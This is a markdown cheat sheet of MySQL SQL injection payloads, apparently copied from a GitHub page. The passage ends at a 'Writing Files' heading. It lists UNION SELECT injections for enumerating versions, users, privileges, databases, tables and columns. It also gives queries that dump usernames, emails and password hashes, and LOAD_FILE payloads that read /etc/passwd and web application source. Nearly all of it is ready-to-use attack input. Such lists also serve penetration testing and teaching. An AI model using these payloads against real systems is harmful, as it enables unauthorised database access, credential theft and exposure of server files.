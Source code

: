 
Get Version:

- `version()`
- `@@version`

Current User:

- `user()`

Current DB:

- `database()`

User privileges:

- `SELECT super_priv FROM mysql.user`
- `UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -`
- `UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`
- `UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -`

All Databases:

- `group_concat(Schema_NAME,"\r\n") FROM Information_Schema.SCHEMATA`

All tables from DB:

- `group_concat(TABLE_NAME) FROM Information_Schema.TABLES WHERE TABLE_SCHEMA = 'db_name'`
- `UNION SELECT table_name,NULL,FROM information_schema.tables`

All columns for all tabels in database:

- `group_concat(COLUMN_NAME) FROM Information_Schema.COLUMNS WHERE TABLE_SCHEMA = 'db_name'`

Get table and column name at once:

- `group_concat(TABLE_NAME,' : ',COLUMN_NAME,'\r\n') FROM Information_Schema.COLUMNS WHERE TABLE_SCHEMA = 'db'`

All columns for one table:

- `group_concat(COLUMN_NAME) FROM Information_Schema.COLUMNS WHERE TABLE_SCHEMA = 'db_name' AND TABLE_NAME = 'table_name'`

Show Input from table:

- `group_concat(role,' : ',name,' : ',email,' : ',password,'\r\n') from users`

List Password Hashes:

- `SELECT host, user, password FROM mysql.user;`

## Read Files

- `union select 1,2,3,LOAD_FILE('/etc/passwd')-- -`
- `Union Select TO_base64(LOAD_FILE("/var/www/html/index.php"))-- -`

## Writing Files

Checking the `secure_file_priv` value, empty means we can read/write files:
